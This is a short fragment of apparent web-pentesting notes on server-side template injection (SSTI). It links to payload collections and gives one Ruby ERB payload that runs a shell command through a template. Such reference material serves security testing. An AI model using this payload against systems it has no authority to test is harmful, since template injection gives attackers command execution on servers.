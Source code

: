 # SSTI (Server-side Template Injection)


https://github.com/payloadbox/ssti-payloads

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Ruby
<%= `pwd` %> 